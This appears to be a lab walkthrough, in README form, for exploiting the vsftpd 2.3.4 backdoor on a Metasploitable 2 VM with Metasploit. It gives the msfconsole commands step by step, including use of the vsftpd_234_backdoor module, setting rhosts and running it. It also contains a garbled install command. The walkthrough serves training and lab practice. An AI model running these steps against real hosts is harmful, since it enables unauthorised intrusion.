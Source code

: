 # vsftpd 2.3.4

## Using Metasploit

<p align="center">
  <img alt="msfConsole" src="https://help.rapid7.com/metasploit/Content/images/icons/favicon.ico" height="140" />

Firstly, install metasploit if not installed using below command.
<p align="center"><i>
  pt-get install vsftpd
  </i></p>
<p><b>Step-00</b> Now start with starting the msfconsole with <i><b>msfconsole</i> command.</b></i></p>
<b>Step-01</b> Once loaded give the command, <i><b>search vsftpd 2.3.4</b></i>
<p align="center"><img alt="search vsftpd 2.3.4" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-1.png"></p>
<b>Step-02</b> Using the desired exploit in this case select said exploit with command, <i><b>use exploit/unix/ftp/vsftpd_234_backdoor</b></i>
<p align="center"><img alt="use exploit" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-2.png">
</br><i>In some updated versions of msfconsole, a numeric choice is associated with the options. With that there is no need to enter complete command, just enter the number associated with that command. In that case choose the desired number.</i></p>
<b>Step-03</b> The command, info, will provide intel on the exploit. Run the command, <b><i>show options</i></b>, to see what is missing from running this exploit.
<p align="center"><img alt="show options" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-3.png"></p>
<b>Step-04</b> Using the IP address logged earlier from the Metasploitable 2 VM, run the command, <b><i>set rhosts “IP address from Metasploitable 2”</i></b>
<p align="center"><img alt="set rhosts" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-4.png"></p>
<b>Step-04</b> Run the show options command to make sure the IP matches the Metasploitable 2 VM. If so, run the command <i><b>run</i></b>
<p align="center"><img alt="run" src="https://westoahu.hawaii.edu/cyber/wp-content/uploads/2019/04/word-image-5.png"></p>

**Note**
</br>While exploiting this box with Metasploit was easy, it took away the core aspect of exploitation. In other words, using Metasploit only teaches you how to input data and press the right settings to exploit; a script kiddie. Like all tools it is important to understand what is happening before using an automated system.
